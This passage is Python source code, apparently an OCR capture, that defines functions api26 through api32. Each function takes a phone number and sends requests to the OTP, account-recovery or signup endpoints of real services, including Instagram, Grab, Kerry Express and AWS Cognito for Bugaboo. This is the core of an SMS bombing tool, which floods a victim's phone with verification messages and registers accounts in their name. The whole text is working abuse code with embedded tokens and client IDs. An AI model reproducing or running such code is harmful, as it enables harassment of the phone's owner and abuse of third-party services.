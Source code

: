     

def api26(phone):

    post("https://www.instagram.com/accounts/account_recovery_send_ajax/",data=f"email_or_username={phone}&recaptcha_challenge_field=",headers={"Content-Type":"application/x-www-form-urlencoded","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36","x-csrftoken": "EKIzZefCrMss0ypkr2VjEWZ1I7uvJ9BD"}).json

    

def api27(phone):

    post("https://th.kerryexpress.com/website-api/api/OTP/v1/RequestOTP/"+phone)

    

def api28(phone):

    post("https://api.scg-id.com/api/otp/send_otp", headers={"Content-Type": "application/json;charset=UTF-8"},json={"phone_no": phone})

    

def api29(phone):

    post("https://partner-api.grab.com/grabid/v1/oauth2/otp", json={"client_id":"4ddf78ade8324462988fec5bfc5874c2","transaction_ctx":"null","country_code":"TH","method":"SMS","num_digits":"6","scope":"openid profile.read foodweb.order foodweb.rewards foodweb.get_enterprise_profile","phone_number": phone},headers={})

    

def api30(phone):

    post("https://www.konvy.com/ajax/system.php?type=reg&action=get_phone_code", data={"phone": phone})

    

def api31(phone):

    post("https://ecomapi.eveandboy.com/v10/user/signup/phone", data={"phone": phone,"password":"123456789Az"})

    

def api32(phone):

    post("https://cognito-idp.ap-southeast-1.amazonaws.com/",headers={"user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/x-amz-json-1.1","x-amz-target": "AWSCognitoIdentityProviderService.SignUp","x-amz-user-agent": "aws-amplify/0.1.x js","referer": "https://www.bugaboo.tv/members/signup/phone"},json={"ClientId":"6g47av6ddfcvi06v4l186c16d6","Username":f"+66{phone[1:]}","Password":"098098Az","UserAttributes":[{"Name":"name","Value":"Dbdh"},{"Name":"birthdate","Value":"2005-01-01"},{"Name":"gender","Value":"Male"},{"Name":"phone_number","Value":f"+66{phone[1:]}"},{"Name":"custom:phone_country_code","Value":"+66"},{"Name":"custom:is_agreement","Value":"true"},{"Name":"custom:allow_consent","Value":"true"},{"Name":"custom:allow_person_info","Value":"true"}],"ValidationData":[]})

    post("https://cognito-idp.ap-southeast-1.amazonaws.com/",headers={"cache-control": "max-age=0","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/x-amz-json-1.1","x-amz-target": "AWSCognitoIdentityProviderService.ResendConfirmationCode","x-amz-user-agent": "aws-amplify/0.1.x js","referer": "https://www.bugaboo.tv/members/resetpass/phone"},json={"ClientId":"6g47av6ddfcvi06v4l186c16d6","Username":f"+66{phone[1:]}"})
